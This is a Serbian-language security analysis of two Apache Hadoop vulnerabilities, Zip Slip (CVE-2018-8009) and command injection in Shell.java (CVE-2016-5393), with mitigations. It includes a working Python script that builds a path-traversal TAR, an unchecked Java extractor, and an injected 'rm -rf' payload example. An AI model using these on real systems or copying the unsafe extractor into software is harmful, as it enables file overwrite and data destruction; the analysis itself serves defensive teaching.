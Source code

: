 ## Zip Slip (CVE-2018-8009) - analiza

Zip Slip je ranjivost koja se ispoljava prilikom obrade arhivskih fajlova, npr. ZIP i TAR. Ova ranjivost omogućava napadačima da iskoriste nebezbednu logiku raspakivanja fajlova kako bi zapisali zlonamerni sadržaj na neautorizovane lokacije u fajl sistemu.

Glavni uzrok ranjivosti leži u tome što aplikacija ne proverava putanje fajlova unutar arhive. Napadači mogu kreirati arhive koje sadrže fajlove sa apsolutnim putanjama (npr. `C:/Windows/System32`) ili relativnim putanjama koje koriste `../` za vraćanje u roditeljski direktorijume. Tokom procesa raspakivanja, ako aplikacija slepo veruje ovim putanjama, može se desiti da zlonamerni fajlovi budu upisani van ciljnog direktorijuma, čime se ugrožava bezbednost sistema.

Ova ranjivost omogućava napadaču da preuzme kontrolu nad sistemom ili da dovede do nepravilnog rada sistema. Na primer, može doći do situacije da se ekstraktuje skripta za povezivanje sa napadačevim serverom na mestu gde napadač može da pokrene tu skriptu bez ikakvih dodatnih privilegija (recimo, izvršenjem HTTP upita).

Primer pajton skripte za kreiranje malicioznog TAR fajla:
```python
import tarfile
import io

def create_malicious_tar(tar_path, target_file_path, content):
    with tarfile.open(tar_path, "w") as tar:
        # Create a file-like object from the content (bytes)
        fileobj = io.BytesIO(content.encode('utf-8'))
        
        # Create the TarInfo object with the path where you want to extract the file
        tarinfo = tarfile.TarInfo(name=target_file_path)
        tarinfo.size = len(content)  # Set the size of the file

        # Add the file to the TAR archive
        tar.addfile(tarinfo, fileobj=fileobj)

    print(f"Malicious TAR created at: {tar_path}")

# Specify where the file should be unpacked
target_file_path = "C:\\Windows\\System32\\malicious.txt"  # Example of absoulute path
# target_file_path = ..\\..\\malicious.txt"  # Example of relative path
# target_file_path = extracted\\malicious.txt"  # Example of safe path

tar_path = "malicious.tar"

# The content of the file to be packed in the TAR file
content = "This is a malicious file that will be unpacked to a specific directory."

# Create the malicious TAR
create_malicious_tar(tar_path, target_file_path, content)
```

Ranjivost se kod Hadoop sistema može eksploatisati tako što se maliciozni TAR fajl prebaci u HDFS i njegovo ekstraktovanje izvrši pomoću Java programa koji nebezbedno rukuje putanjama na koje treba da se ekstraktuje TAR fajl. Takav Java program je dat u nastavku:

```java
import org.apache.commons.compress.archivers.tar.TarArchiveInputStream;
import org.apache.hadoop.fs.FileSystem;
import org.apache.hadoop.fs.Path;
import org.apache.hadoop.conf.Configuration;
import org.apache.hadoop.fs.FSDataInputStream;

import java.io.IOException;
import java.io.InputStream;
import java.io.FileOutputStream;
import java.io.BufferedOutputStream;
import java.io.File;

public class ExploitHadoopTar {

    public static void main(String[] args) throws IOException {
        if (args.length != 1) {
            System.out.println("Usage: HadoopTarExploit <path-to-tar-file>");
            System.exit(1);
        }

        // Get TAR file path from arguments
        String tarFilePath = args[0];

        // Configuration for Hadoop FileSystem (you may need to adjust this based on your Hadoop setup)
        Configuration conf = new Configuration();
        FileSystem fs = FileSystem.get(conf);

        // Open the malicious TAR file from HDFS
        Path hdfsTarFilePath = new Path(tarFilePath);  // HDFS path
        try (FSDataInputStream tarFileStream = fs.open(hdfsTarFilePath);
             TarArchiveInputStream tarInputStream = new TarArchiveInputStream(tarFileStream)) {

            // Iterate over the TAR entries and extract them
            org.apache.commons.compress.archivers.tar.TarArchiveEntry entry;
            while ((entry = tarInputStream.getNextTarEntry()) != null) {
                String entryName = entry.getName();
                System.out.println("Extracting: " + entryName);

                // Create the local extraction file
                File extractionFile = new File(entryName);  // Local path (relative to current directory or absolute path)

                // If the entry is a directory, create the directory on the local filesystem
                if (entry.isDirectory()) {
                    extractionFile.mkdirs();
                    continue;  // Skip to the next entry
                }

                // Ensure the parent directory exists
                File parentDir = extractionFile.getParentFile();
                if (parentDir != null && !parentDir.exists()) {
                    parentDir.mkdirs();
                }

                // Create the output stream to write the extracted file locally
                try (BufferedOutputStream outputStream = new BufferedOutputStream(new FileOutputStream(extractionFile))) {
                    byte[] buffer = new byte[1024];
                    int bytesRead;
                    while ((bytesRead = tarInputStream.read(buffer)) != -1) {
                        outputStream.write(buffer, 0, bytesRead);
                    }
                }

                System.out.println("Extracted to: " + extractionFile.getAbsolutePath());
            }

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
Pokretanjem ovog Java programa doći će do raspakivanja TAR fajla na putanje koje su podešene u TAR fajlu bez ikakve provere validnosti tih putanja. Pokretanje se vrši komandom: `hadoop jar path/to/jar/ExploitHadoopTar.jar ExploitHadoopTar path/to/tar/on/hdfs/malicious.tar`.


### Bezbednosne kontrole

1. Validacija raspakovanih putanja prilikom raspakivanja
2. Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ograničenjima za pisanje i čitanje

#### Validacija raspakovanih putanja prilikom raspakivanja
Validacija putanja se ogleda u proveri da li je putanja apsolutna i da li sadrži `../` za povratak u roditeljski direktorijum. U nastavku je prikazana funkcija za validaciju i izmenjeni deo koda iz prethodnog primera:
```java
private static boolean isPathValid(String entryName) {
    // Check if the path is absolute
    File entryFile = new File(entryName);
    if (entryFile.isAbsolute()) {
        return false;
    }

    // Check if the path contains '../'
    String normalizedPath = entryFile.getPath().replace("\\", "/"); // Normalize path for cross-platform compatibility
    if (normalizedPath.contains("../")) {
        return false;
    }

    return true;
}

...

// Add check in example code
if (!isPathValid(entryName)) {
    System.out.println("Invalid path: " + entryName);
    continue;
}
```

#### Kreiranje posebnog korisnika za pokretanje Hadoop aplikacije sa ograničenjima za pisanje i čitanje
Celi problem se može preduprediti time što će se Hadoop aplikacija pokrenuti tako da nema dozvole za pisanje i čitanje na bilo kojoj putanji u fajl sistemu. Potrebno je kreirati korisnika koji će imati dozvoljeno pisanje i čitanje samo iz određenih fajlova/direktorijuma. Čitanje treba biti dozvoljeno u okviru foldera gde je instaliran Hadoop radi čitanja konfiguracionih fajlova kao i pristupa podacima u HDFS. Putanje za upisivanje novih podataka je potrebno podesiti po potrebama sistema. Ukoliko se koristi Hadoop MapReduce funkcionalnost, potrebno je tačno definisati iz kog direktorijuma je dozvoljeno čitanje ulaznih podataka kao i u koji direktorijum je dozvoljeno upisivanje rezultata. Takva provera je potrebna samo ukoliko se barata podacima sa lokalnog računara (u smislu da se barata podacima iz fajl sistema računara), a ne direktno iz HDFS. 

Ovakav sistem zaštite je sproveden na nivou operativnog sistema pa se načini implementacije mogu razlikovati. Suština je da se kreira novi korisnik u operativnom sistemu i da mu se dodele dozvoljeni direktorijumi u koje može da upisuje i iz kojih može da čita fajlove, a da se ostali zabrane. Nakon toga je potrebno Hadoop pokrenuti sa permisijama tog korisnika.

## Izvršavanje proizvoljnih komandi sa permisijama HDFS servisa (CVE-2016-5393) - analiza

Jedna od pomoćnih klasa (`hadoop-common-project/hadoop-common/src/main/java/org/apache/hadoop/util/Shell.java`) koja se bavi obradom shell komandi radi pod pretpostavkom da komanda neće imati neke od specijalnih karaktera u sebi. Ovakva pretpostavka dovodi do toga da se prilikom izvršavanja željene bash komande može ubaciti maliciozna bash komanda. Napad koji eksploatiše ovu ranjivost je *command injection* napad koji se može izvršiti zbog neadekvatne obrade navodnika u komandi. Da bi se napad izvršio, korisnik mora biti autentifikovan i mora mu biti omogućeno korišćenje HDFS servisa.

Pseudo-primer maliciozne komande bi bio `rm -rf /some/path $userInput` gde `userInput` sadrži `" ; rm -rf /important/path"` i gde bi rezultat bio komanda `rm -rf /some/path ; rm -rf /important/path` koja bi obrisala i `/some/path` i `/important/path`. Ovakvim napadom je moguće izvršiti bilo koju komandu pod permisijama HDFS servisa.

#### Bezbednosne kontrole
Potrebno je sanitizovati korisnički unos i ne dozvoliti da se korisnički unos smatra komandom. To je učinjeno sledećom funkcijom ([fix](https://github.com/apache/hadoop/pull/119) kada je ranjivost popravljena i dodata funkcija za sanitizaciju):
```java
static String bashQuote(String arg) {
    StringBuilder buffer = new StringBuilder(arg.length() + 2);
    buffer.append('\'');
    buffer.append(arg.replace("'", "'\\''"));
    buffer.append('\'');
    return buffer.toString();
}
```
Ovakva obrada dovodi do toga da se korisnički unos transformiše u string. Na početak i kraj korisničkog unosa se dodaju `'` čime se obezbeđuje da se korisnički unos smatra stringom. Ako originalni string sadrži jedan ili više apostrofa, oni se zamenjuju nizom `'\\''`. Ovaj izraz izlazi iz trenutnog navodnika, dodaje karakter `'` kao deo stringa, a zatim ponovo ulazi u režim stringa. Time se postiže da se kompletan korisnički unos transformiše u string i onemogućava njegovo izvršenje.

Korišćenjem ove funkcije prethodna maliciozna komanda se pretvara u `rm -rf /some/path ' ; rm -rf /important/path'` i nije je moguće izvršiti.

Ranjivost je prisutna u Hadoop verzijama: `2.6.x` pre `2.6.5` i `2.7.x` pre `2.7.3`. Ranjivost je popravljena u Hadoop verzijama: `2.8.0`, `2.7.3`, `2.6.5`, `3.0.0-alpha1` pa se kao mitigacija preporučuje prebacivanje na navedene verzije.